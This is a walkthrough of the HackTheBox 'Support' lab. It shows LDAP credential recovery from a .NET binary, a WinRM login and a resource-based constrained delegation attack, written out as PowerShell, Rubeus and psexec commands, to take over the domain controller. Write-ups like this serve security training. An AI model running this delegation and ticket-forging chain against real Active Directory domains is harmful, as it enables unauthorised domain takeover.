





# Support -- HackTheBox (write-up)

**Difficulty:** Easy
**Box:** Support (HackTheBox)
**Author:** dkrxhn
**Date:** 2025-07-19

---

## TL;DR

### SMB share contained a .NET binary with XOR-encoded LDAP credentials. LDAP search revealed a password in the info field. Resource-based constrained delegation (RBCD) attack for domain admin.

---

## Target info

- Host: `10.129.126.249`
- Domain: `support.htb`
- Services discovered: `53/tcp`, `88/tcp`, `135/tcp`, `139/tcp`, `389/tcp`, `445/tcp`, `464/tcp`, `593/tcp`, `636/tcp`, `3268/tcp`, `3269/tcp`, `5985/tcp`, `9389/tcp`

---

## Enumeration

```bash
enum4linux -a -u "guest" -p "" 10.129.126.249
```



Used `lookupsid.py` to enumerate users:



Found users including `ldap`, `support`, `smith.rosario`, `hernandez.stanley`, and others.

---

## Foothold

Opened `UserInfo.exe` from SMB share in dnSpy:



Found encoded password: `0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E`, XOR key `armando`, constant `223`.

Decoded with Python (base64 decode, XOR with key and 223):



LDAP password: `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

Searched LDAP:

```bash
ldapsearch -H ldap://10.129.126.249 -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" | less
```

Found password in the `info` field of the `support` user:

```
info: ==Ironside47pleasure40Watchful==
```

The support user was a member of `Remote Management Users`.

```bash
evil-winrm -i 10.129.126.249 -u support -p 'Ironside47pleasure40Watchful'
```

---

## Privilege escalation

Had `SeMachineAccountPrivilege`. Performed RBCD (Resource-Based Constrained Delegation) attack.

Uploaded `Powermad.ps1`, `PowerView.ps1`, and `Rubeus.exe`.

Verified machine account quota:

```powershell
Get-DomainObject -Identity 'DC=SUPPORT,DC=HTB' | select ms-ds-machineaccountquota
```

Returns `10`. Added a fake computer:

```powershell
New-MachineAccount -MachineAccount 0xdfFakeComputer -Password $(ConvertTo-SecureString '0xdf0xdf123' -AsPlainText -Force)
```

Got the fake computer SID and set delegation:

```powershell
$fakesid = Get-DomainComputer 0xdfFakeComputer | select -expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Verified ACL:



Got RC4 hash and performed S4U attack:

```powershell
.\Rubeus.exe hash /password:0xdf0xdf123 /user:0xdfFakeComputer /domain:support.htb
.\Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:B1809AB221A7E1F4545BD9E24E49D5F4 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```

Saved and converted ticket on Kali:

```bash
base64 -d ticket.kirbi.b64 > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

---

## Lessons & takeaways

- Always reverse-engineer .NET binaries from SMB shares -- they often contain hardcoded credentials
- LDAP `info` fields can contain passwords; search all user attributes
- RBCD is a powerful attack when you have `SeMachineAccountPrivilege` and GenericAll on the DC
---
